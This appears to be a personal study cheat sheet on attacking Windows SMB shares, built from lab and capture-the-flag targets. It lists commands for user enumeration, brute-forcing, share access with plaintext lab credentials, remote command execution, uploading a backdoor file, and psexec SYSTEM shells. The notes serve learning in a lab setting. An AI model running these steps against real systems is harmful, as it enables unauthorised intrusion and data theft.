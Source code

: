 https://0xdf.gitlab.io/cheatsheets/smb-enum

Smb-double-pulsar-backdoor —>nmap
vuln-ms17-010 =eternal blue —>nmap
linux/samba/is_known_pipename  => This above module triggers an arbitrary shared library load vulnerability in Samba versions 3.5.0 to 4.4.14

Access shares, get user name, brute force user and login again with bruteforced users.
Tips:- enum users and later brute force

## Listing Shares
- nmap --script smb-enum-shares.nse -p445 192.144.106.3
- auxiliary/scanner/smb/smb_enumshares
- enum4linux -S 192.144.106.3
- smbclient -L 192.144.106.3 -N

If username and password is provided, more enum can be done…
![](../../Attachements/Pasted%20image%2020250223174953.png)

## NULL SESSION

rpcclient -U "" -N 192.126.66.3
![](../../Attachements/Pasted%20image%2020250223175027.png)
srvinfo = gives server info in RPC CLIENT
enumdomusers = enum users
lookupnames admin = sid of admin


## ENUM4LINUX
```bash
enum4linux -a 1.1.1.1 = Automated script for enumuration
enum4linux -u administrator -p vagrant -U 1.1.1.1
```

## NetExec
    The network execution tool
    netexec or nxc both same..
```bash
netexec smb 10.10.11.35 -u 'atish' -p '' --shares => guest access

netexec smb 10.10.11.35 -u '.' -p '' --shares =>guest access

netexec smb 10.10.11.35 -u '.' -p '' --rid-brute => Enumerate users by bruteforcing the RID on the remote target

netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares

netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
(rid brute will give all user/group,, this command will give user and description both...)

```

### --rid-brute
```
netexec smb 10.10.11.35 -u '.' -p '' --rid-brute
```
![](../../Attachements/Pasted%20image%2020250223190204.png)

Here above --rid-brute work using RPCCLIENT method:::
```
rpcclient -U 'CICADA.htb/' 10.10.11.35
lookupnames administrator
lookupsid 7346338473874878blah-blah
```
![](../../Attachements/Pasted%20image%2020250223190123.png)
Whenever it is unknown, it displays the name
### Enum users::
```
netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
![](../../Attachements/Pasted%20image%2020250223193738.png)




## NMAP
```bash 
- ls -al /usr/share/nmap/scripts/ | grep smb
- nmap -p 445 --script smb-os-discovery 10.10.125.84
- **`nmap -p 445 --script smb* 10.10.125.84` ⇒runs all script**
- nmap -p 445 --script smb-enum-shares 10.10.125.84 ⇒shares
- nmap -p445 --script smb-protocols 10.0.17.200
- nmap -p445 --script smb-security-mode 10.0.17.200
```

 ### Nmap enum using credentials
 ```bash
- nmap -p445 --script smb-security-mode 10.0.17.200
- nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-domains--script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- --script smb-enum-groups
- --script smb-enum-domains
- --script smb-enum-services
- nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
```

## SMBCLIENT
```bash
smbclient -L //10.10.11.35 -N

smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' //10.10.11.35/dev  =>access using creds

smbclient -U 'david.orelious' //10.10.11.35/dev => same as above access using cres


smbclient -L ////192.126.66.3// -N =Nullsession, list shares

smbclient //10.10.125.84/ADMIN$ = connect to the share with annon

smbclient //10.10.125.84/ADMIN$ -N

smbclient -U '.' //10.10.125.84/ADMIN$ => random anon session

smbclient //10.10.125.84/IPC$ = connect to IPC

smbclient //192.208.227.3/public -N => connected

smbclient //10.10.125.84/BillySMB ⇒ To access SMB Shares

**`TIP:` Sometime Some shares wont be listed but can be viewed using above command.**
```
![](../../Attachements/Pasted%20image%2020250223175631.png)
Access share once password is known::
```
smbclient -U 'david.orelious' //10.10.11.35/dev
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' //10.10.11.35/dev
```
![](../../Attachements/Pasted%20image%2020250223194133.png)
or specify both username and password using %==> above % is uname and after is password
```
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' //10.10.11.35/dev
```
![](../../Attachements/Pasted%20image%2020250223200103.png)
mget = command to download file
![](../../Attachements/Pasted%20image%2020250223185217.png)


# SMBMap
Allows users to enumerate samba share 
Allows file upload/download/delete
```bash
smbmap -u guest -p "" -d . -H 10.10.125.84 =shares also

smbmap -u administrator -p smbserver_771 -d . -H 10.0.28.123 = admin will have more privilege

smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig’ => can be used to run commands

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L = List drives on local host

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ = List content of C

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor' ⇒ Upload File in C drive

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ ⇒ Verify upload

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' ⇒ Download File

- smbmap -H 192.212.251.3 -u admin -p password1 ⇒ ONCE CRED IS KNOWN
```

# Bruteforce
```bash
hydra -l admin -P /usr/share/password.txt 10.10.10.10 smb
hydra -L User.txt -P /usr/share/password.txt 10.10.10.10 smb
```


# Exploiting SMB with PsExec
![](../../Attachements/Pasted%20image%2020250223181056.png)
![](../../Attachements/Pasted%20image%2020250223181136.png)
![](../../Attachements/Pasted%20image%2020250223181214.png)
![](../../Attachements/Pasted%20image%2020250223181247.png)
![](../../Attachements/Pasted%20image%2020250223181306.png)

## Mannual
We need to have credetials to run this too. We can bruteforce the credentials before using this tool.
psexec.py is a tool in python to authenticate with the system.
```bash
psexec.py Administrator@10.2.29.107 cmd.exe
```
![](../../Attachements/Pasted%20image%2020250223181540.png)
![](../../Attachements/Pasted%20image%2020250223181551.png)
nt authority\system = highest authority

## Metasploit
Now lets use psexec in **`METASPOLIT
NOTE: when we use [psexec.py](http://psexec.py) it wont upload anything to target but metaspolic psexec upload malacious code in the target.
![](../../Attachements/Pasted%20image%2020250223181727.png)
![](../../Attachements/Pasted%20image%2020250223181736.png)
![](../../Attachements/Pasted%20image%2020250223181749.png)


